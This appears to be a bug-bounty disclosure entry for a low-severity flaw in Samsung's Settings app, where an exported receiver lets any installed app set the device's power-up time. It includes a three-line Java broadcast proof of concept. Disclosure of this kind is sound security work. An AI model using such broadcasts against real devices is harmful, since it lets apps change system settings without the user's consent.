

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Settings</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.android.settings</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.12</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.12.12</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$290</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found a receiver in the Settings app that handles the `com.samsung.sec.android.clockpackage.AUTO_POWER_UP` action. It would get the value of `Alarm_Power_Up_Time` and write it to the system settings. This allowed any third-party app installed on the same device to set an arbitrary power-up time.

**Proof of Concept**

```java
Intent i = new Intent("com.samsung.sec.android.clockpackage.AUTO_POWER_UP");
i.putExtra("Alarm_Power_Up_Time", SystemClock.currentThreadTimeMillis() + 15 * 60 * 1000);
sendBroadcast(i);
```

## References

- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)
